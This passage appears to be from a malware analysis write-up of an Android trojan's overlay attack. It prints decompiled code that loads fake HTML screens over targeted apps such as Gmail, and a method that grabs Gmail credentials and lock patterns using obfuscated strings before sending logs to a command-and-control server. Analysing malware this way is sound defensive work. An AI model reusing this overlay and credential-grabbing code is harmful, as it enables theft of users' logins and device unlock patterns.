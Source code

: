 
## Overlay attack

The malware comes with classic features such as overlya attack.  If a targeted APP is opened then the malware will launch the `html` file of the targeted app. 

```cs
protected void onCreate(Bundle bundle0) {
        super.onCreate(bundle0);
        this.c = new WebView(this);
        this.c.getSettings().setJavaScriptEnabled(true);
        this.c.setScrollBarStyle(0);
        this.c.setWebViewClient(new b(this, 0));
        this.c.setWebChromeClient(new a(this, 0));
        this.c.loadUrl(this.b.m);
        this.setContentView(this.c);
    }

    @Override  // android.app.Activity
    public void onDestroy() {
        super.onDestroy();
        this.c.removeAllViewsInLayout();
        this.c.removeAllViews();
        this.c.destroy();
        this.c = null;
        this.finish();
    }
```

One of the targeted APPs The malware will try to steal is `Gmail`. The malware will try to steal `Gmail` credential using `Overlay attack`. And The malware will try to steal lockpattern using overlay attack. Then send logs to the C2 server.

```cs
 public void send_log_injects(String s) {
            if(!s.isEmpty()) {
                if(gtzkggpuaqjntiao.this.g.isEmpty()) {
                    String s1 = gtzkggpuaqjntiao.this.b.b(20);
                    gtzkggpuaqjntiao.this.g = s1;
                }

                JSONObject jSONObject0 = new JSONObject();
                if(gtzkggpuaqjntiao.this.f.equals("grabbing_pass_gmail")) {
                    gtzkggpuaqjntiao.this.b.e(this.mContext, gtzkggpuaqjntiao.this.a.aG, "");
                    String s2 = gtzkggpuaqjntiao.this.a("ZWJkNzMxZWFkOTM5NmUzMmE1YTk1NTUyNTAyZDY5YzBiY2RjY2NmMTlj");  // com.google.android.gm ==> Gmail APP
                    gtzkggpuaqjntiao.this.f = s2;
                }

                if(gtzkggpuaqjntiao.this.f.equals("grabbing_lockpattern")) {
                    gtzkggpuaqjntiao.this.b.e(this.mContext, gtzkggpuaqjntiao.this.a.aI, "");
                    gtzkggpuaqjntiao.this.f = "grabbing_lockpattern";
                    String s3 = s.replace(i.f(gtzkggpuaqjntiao.this.a("YzRmYjE2ZjRkYjBlNDMzOTkxZmUxNzQ2NWYyNDRkYzViMWYwYWZmZmJlYWVhOTI2ZGVjOWViMTQyYjcxMzU3YjFlODljYzQ0YTQ5ZTc1OTI0MzJmYjVlYTE1ZDJiMTgwOTMwNTRkNDYzNjRhOGZlMWZmNDcwYzM2Y2JkMGQ3YmQxYzc4YzljNjVmNjVmNTliNjhiNzIwODk5ZjQwYjE1Yg==")), "");  // LCJ0eXBlX2luamVjdHMiOiJwaW5jb2RlIiwiY2xvc2VkIjoiY2xvc2VfYWN0aXZpdHlfaW5qZWN0cyI=
                     // ,"type_injects":"pincode","closed":"close_activity_injects"
                     
                    gtzkggpuaqjntiao.this.b.f(this.mContext, gtzkggpuaqjntiao.this.a.ab, gtzkggpuaqjntiao.this.a("YzRkNzNmYWY5ZTA2NjAyMWJkYTkwOTVkMDQ2OQ==") + s3 + gtzkggpuaqjntiao.this.a("ZDM4OTY4Zjc4YjY0MzI3Njk0"));  // [143523#]
                                                                                                                                                                                                                           // Lock Pattern: 
                }
```